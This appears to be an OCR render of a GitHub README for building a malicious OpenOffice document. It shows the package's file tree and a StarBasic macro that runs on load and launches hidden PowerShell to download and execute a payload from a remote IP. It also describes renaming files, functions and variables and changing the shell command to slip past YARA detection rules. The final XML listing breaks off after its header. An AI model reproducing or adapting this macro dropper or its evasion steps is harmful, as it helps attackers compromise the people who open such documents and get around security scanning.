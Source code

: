 ```
│   ├── Standard
│   │   ├── Module1.xml
│   │   └── script-lb.xml
│   └── script-lc.xml
├── Configurations2
│   └── accelerator
│       └── current.xml
├── META-INF
│   └── manifest.xml
├── Thumbnails
│   └── thumbnail.png
├── content.xml
├── manifest.rdf
├── meta.xml
├── mimetype
├── settings.xml
└── styles.xml
```
The "Module1.xml" has the macro code, and i have to change the file name, functions and vars names, and  also the shell() command to bypass yara rules like: 
### Default Module1.xml file :
```
Sub OnLoad
      Dim os as string
      os = GetOS
      If os = "windows" OR os = "osx" OR os = "linux" Then
        Exploit
      end If
    End Sub

    Sub Exploit
      Shell("cmd.exe /C ""powershell.exe -nop -w hidden -c $i=new-object net.webclient;$i.proxy=[Net.WebRequest]::GetSystemWebProxy();$i.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $i.downloadstring('http://10.1.1.41:8088/Pc2F6ndgt1H5jGs');""";)
    End Sub

    Function GetOS() as string
      select case getGUIType
        case 1:
          GetOS = "windows"
        case 3:
          GetOS = "osx"
        case 4:
          GetOS = "linux"
      end select
    End Function

    Function GetExtName() as string
      select case GetOS
        case "windows"
          GetFileName = "exe"
        case else
          GetFileName = "bin"
      end select
    End Function
```
### The file Finnally looks like: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="UnModule" script:language="StarBasic">REM  *****  BASIC  *****
```